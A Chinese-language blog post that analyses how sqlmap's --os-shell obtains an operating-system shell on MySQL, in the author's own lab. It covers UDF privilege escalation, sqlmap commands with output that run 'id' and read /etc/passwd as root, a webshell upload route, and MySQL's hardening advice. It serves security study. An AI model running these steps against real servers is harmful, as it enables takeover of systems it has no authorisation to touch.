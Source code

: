 ```yaml
---
layout: post
title: 利用SQLMAP实现MySQL --os-shell的过程分析
description: ""
keywords: ""
---
```


### 结论

关于MySQL读写文件的条件限制是老生常谈的问题，由于SQLMAP获取os-shell的两种方法均需要文件写入操作，这里先摆出结论：

1、MySQL服务默认以mysql用户权限启动，并没有危险目录（/usr/lib64/mysql/plugin[root 755]、/var/www/html[root 755]、/var/spool/cron[root 700]、/root/.ssh[root 700]等）下的文件写入权限。

2、MySQL 5.6.34版本以后的secure_file_priv参数默认值为NULL或指定的/var/lib/mysql-files，即禁止在危险目录写入。

\* 针对结论1，受害者可以使用`--user=root`启动服务获取系统root权限；也可以将相应目录给予o+w权限（其他用户写权限）。实际情况下前者几乎不存在，后者却存在许多嫌麻烦的糊涂蛋给予web目录（/var/www/html）777权限的，以至于被写入webshell。

\* 针对结论2，secure-file-priv属于Server System Variables，需要在配置中修改。即使有条件修改配置文件（/etc/my.cnf），也必须重启MySQL服务才能生效。

\* 至于文件读取，所需条件同理，本文不做分析。

\+ System root和System mysql、System root和MySQL root、MySQL root和MySQL user有明显区别。

### 默认环境

CentOS 7.7.1908、MySQL 5.7.29（--secure-file-priv=/var/lib/mysql-files）、SQLMAP 1.4.2

使用`sqlmap -hh`可以得到详细帮助文档，可以发现：-d参数是连接数据库参数，--os-shell获取交互shell。

```
-d DIRECT           Connection string for direct database connection
--os-shell          Prompt for an interactive operating system shell
```

利用SQLMAP实现MySQL os-shell有两个途径，一是本文重点分析的由UDF提权获取的SystemShell，一是普通SQL注入获取的Webshell。

### UDF（-d参数）

System root下使用systenctl启动MySQL服务，默认是以System mysql权限启动，使用lsof查看：

```
[root@localhost ~]# lsof -i :3306
COMMAND   PID  USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
mysqld  14754 mysql   17u  IPv6 109862      0t0  TCP *:mysql (LISTEN)
```

利用SQLMAP -d连接数据库会提示没有权限写入：

```
[Sewell]: ~
➜  sqlmap -d "mysql://root:`echo $pass`@172.16.58.130:3306/mysql" --os-shell --no-cast
[22:51:15] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[22:51:15] [ERROR] there has been a problem uploading the shared library, it looks like the binary file has not been written on the database underlying file system
```

\* 由于密码包含特殊符号，这里使用环境变量输出。

使用`--user=root`以System root用户权限启动服务，使用`secure_file_priv=''`更改默认参数值为空（Empty），完成环境搭建。

```
mysqld --user=root --secure_file_priv=''
```

\* 为了方便，可以在默认配置文件`/etc/my.cnf`的`[mysqld]`下添加`user=root`和`secure_file_priv=''`，并使用`mysqld`重新启动MySQL服务。

\+ 若在MySQL客户端中执行读取或写入命令有如下提示，表示受--secure-file-priv限制：

```
The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

\+ 默认情况下查看--secure-file-priv值：

```
mysql> show global variables LIKE "secure_file_priv";
+------------------+-----------------------+
| Variable_name    | Value                 |
+------------------+-----------------------+
| secure_file_priv | /var/lib/mysql-files/ |
+------------------+-----------------------+
1 row in set (0.01 sec)
```

重新利用SQLMAP -d执行，成功上传二进制so文件，并返回shell。

```
[Sewell]: ~
➜  sqlmap -d "mysql://root:`echo $pass`@172.16.58.130:3306/mysql" --os-shell --no-cast
[15:32:48] [INFO] connection to MySQL server '172.16.58.130:3306' established
[15:32:48] [INFO] testing MySQL
[15:32:48] [INFO] confirming MySQL
[15:32:48] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0
[15:32:48] [INFO] fingerprinting the back-end DBMS operating system
[15:32:48] [INFO] the back-end DBMS operating system is Linux
[15:32:48] [INFO] testing if current user is DBA
[15:32:48] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 2
[15:32:57] [INFO] detecting back-end DBMS version from its banner
[15:32:57] [INFO] retrieving MySQL plugin directory absolute path
[15:32:57] [INFO] the local file '/var/folders/48/8d13hmr53_z6ppgcpm5hszkr0000gn/T/sqlmapz0cosk4r52452/lib_mysqludf_sys4ptdzt5a.so' and the remote file '/usr/lib64/mysql/plugin/libscwmi.so' have the same size (8040 B)
[15:32:57] [INFO] creating UDF 'sys_exec' from the binary UDF file
[15:32:57] [INFO] creating UDF 'sys_eval' from the binary UDF file
[15:32:57] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[15:32:57] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> id
do you want to retrieve the command standard output? [Y/n/a]
command standard output: 'uid=0(root) gid=0(root) 组=0(root) 环境=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023'
os-shell> cat /etc/passwd
do you want to retrieve the command standard output? [Y/n/a]
command standard output:
---
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
...
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
---
os-shell> exit
[15:33:12] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_exec'? [Y/n]
do you want to remove UDF 'sys_eval'? [Y/n]
[15:33:14] [INFO] database management system cleanup finished
[15:33:14] [WARNING] remember that UDF shared object files saved on the file system can only be deleted manually
[15:33:14] [INFO] connection to MySQL server '172.16.58.130:3306' closed
```

使用ping命令阻塞os-shell，并利用pstree查看进程树，可发现拿到的是System root Shell：

```
[root@localhost 4gaka]# lsof -i :3306
COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
mysqld  16261 root   16u  IPv6 128373      0t0  TCP *:mysql (LISTEN)
mysqld  16261 root   40u  IPv6 129424      0t0  TCP localhost.localdomain:mysql->gateway:63712 (ESTABLISHED)
[root@localhost 4gaka]# pstree -p 16261
mysqld(16261)─┬─ping(16416)
              ├─{mysqld}(16262)
              ...
              └─{mysqld}(16322)
```

使用Wireshark抓包，过滤出MySQL协议的数据包，右键任意包 -> 追踪流 -> TCP流，以ASCII显示，发现如下信息：

![SQLMAP_MySQL_1](/assets/images/2020-02-27/SQLMAP_MySQL.png)

利用的SQL语句和常规UDF提权语句大同小异，具体流程见图注释。

### Webshell（常规注入）

网上分析较多，BxScope师傅的较为详细，[对利用sqlmap获取os-shell过程的一次抓包分析](https://www.cnblogs.com/BxScope/p/10883422.html)，文章将每个数据包均记录了下来，常规注入获取的os-shell大致流程是：利用SELECT ... INTO OUTFILE ... LINES TERMINATED BY上传小马（仅上传功能） -> 利用小马上传Webshell（可使用system、proc_open、shell_exec、passthru、popen、exec执行命令） -> 利用Webshell执行命令（明文参数cmd=whoami）。

### 参考

官方防范建议：[security-against-attack](https://dev.mysql.com/doc/refman/8.0/en/security-against-attack.html)

```
Never run the MySQL server as the Unix root user. This is extremely dangerous, because any user with the FILE privilege is able to cause the server to create files as root (for example, ~root/.bashrc). To prevent this, mysqld refuses to run as root unless that is specified explicitly using the --user=root option.
```

2、secure_file_priv属性介绍：[server-system-variables](https://dev.mysql.com/doc/refman/8.0/en/server-system-variables.html)

3、SQLMAP支持MySQL和PostgreSQL的UDF [so文件](https://github.com/sqlmapproject/sqlmap/tree/master/data/udf)

4、抓取的Pcap Demo: [SQLMAP_UDF](/assets/images/2020-02-27/SQLMAP_MySQL.pcap) 